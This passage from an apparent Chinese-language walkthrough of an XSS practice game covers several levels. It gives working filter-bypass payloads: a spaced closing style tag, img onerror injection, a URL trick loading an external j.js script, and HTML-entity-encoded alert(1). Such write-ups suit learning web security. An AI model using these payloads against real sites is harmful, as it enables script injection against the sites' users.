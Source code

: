   点进去.......

  为什么还是正则表达式啊！！！！！

  好吧，继续百度，过滤了<\style>标签。好吧，直接换行或者加空格绕过。（颓废）

  `</style ><script>alert(1)</script>`


<img src = 'https://b2.kuibu.net/file/imgdisk/imgs/2022/04/331bc0a591d7b9e4.png' />


## 第九关

  终于不是正则表达式了。这题没啥好说的，在前面加个网址，再把script标签闭合一下就好了。

  `https://www.segmentfault.com><script><img src="x" onerror="alert(1)">` 


<img src = 'https://b2.kuibu.net/file/imgdisk/imgs/2022/04/749a6b0fb1261fd3.png' />


## 第0A关
  
  额，这关其实挺迷的，有些浏览器能做，有些做不了。主要方法就是运用网站目录下的文件来达到xss注入的目
的。有点小离谱。

<img src = 'https://b2.kuibu.net/file/imgdisk/imgs/2022/04/4ef828f7d0a4ae90.png' />


`https://www.segmentfault.com@xss.haozi.me/j.js`


<img src = 'https://b2.kuibu.net/file/imgdisk/imgs/2022/04/82a99667d7fbc9af.png' />


## 第0B关

  好家伙，直接把所有字符改成了大写，那么直接编码绕过，走起。

`<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">`

<img src = 'https://b2.kuibu.net/file/imgdisk/imgs/2022/04/d02f951574a2d663.png' />


## 第0C关

  额，只是多过滤了一个script标签，对于我来说没啥影响，上一关语句拿来用就是了。

`<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">`

<img src = 'https://b2.kuibu.net/file/imgdisk/imgs/2022/04/4bbb162be9e8dc51.png' />


## 第0D关
